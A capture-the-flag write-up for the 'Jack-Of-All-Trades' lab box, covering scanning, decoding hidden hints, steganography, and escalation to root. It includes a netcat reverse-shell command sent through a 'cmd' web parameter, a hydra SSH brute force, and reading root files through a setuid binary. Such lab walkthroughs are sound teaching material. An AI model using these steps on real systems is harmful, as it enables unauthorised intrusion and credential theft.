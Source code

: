 # Jack-Of-All-Trades Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- http: 22. Apache httpd 2.4.10 ((Debian))
- ssh: 80. OpenSSH 6.7p1 Debian 5.

None of the versions appear to be vulnerable.


## HTML page

Strangely, it seems the usual ports for http and ssh have been reversed. Firefox attempted to block the connection to the webserver on port 22, so I had to change the blocker settings in about:config in order for it to allow the connection.

The source code for the home page contains the comment:
*UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==*

Putting this into the base64 command returns the decoded text as:
*Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq*
So now we have a password **u?WtKSraq**


## Gobuster

```
gobuster dir -e -u http://<ip>:22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- **/recovery.php**
- **/assets**

recovery.php contains a login page, with the displayed message *Hello Jack! Did you forget your machine password again?..*. Viewing the source code finds the comment:

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ= 
```

Through some trial and error and the *CyberChef* tool, I managed to decode the comment with base32, followed by hex, and finally ROT13. This gave the message as:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The link leads to a Wikipedia page on Stegosauria, so I went back to the /assets directory and downloaded the images to look for hidden content.


## Steganography

```
wget http://<ip>:22/assets/stego.jpg
steghide extract -sf stego.jpg 
```

Using the password from the home page's source code as the passphrase, a *creds.txt* file was extracted from the image. It reads:
```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

Oops. I repeated this for the other images in the /assets directory, and finally found:
```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

This now allows me to login into the site at /recovery.php with these credentials.
The text on the page reads *GET me a 'cmd' and I'll run it for you Future-Jack.*


## RCE & Privilege Escalation to jack

I added a 'cmd' parameter to the site and immediately got code execution. 
```
http://<ip>:22/nnxhweOV/index.php?cmd=nc <my_ip> <port> -e /bin/bash
```

Using netcat I was then able to get a reverse shell on my machine. Now stabilise it:
```
python -c "import pty; pty.spawn('/bin/bash')"
Ctrl-Z
stty raw -echo; fg
reset
```

I then found an interesting password list in /home: **jacks_password_list**. I downloaded this onto my machine and used it to brute force ssh.

```
hydra -l jack -P jacks_password_list 10.10.216.3 ssh -s 80
```

Now we have the credentials! ***jack : ITMJpGGIqg1jn?>@***.
This revealed the first user flag in the image user.jpg.


## Privilege escalation to root

I tried the usual escalation vectors, and found an interesting setuid binary **/usr/bin/strings**. This let me run the following command:

```
strings /root/root.txt
```
And this gave me the root flag :)

I did briefly attempt to get a shell as root by reading /etc/shadow, but the hash wasn't easily crackable so I figured this isn't intended or necessary.
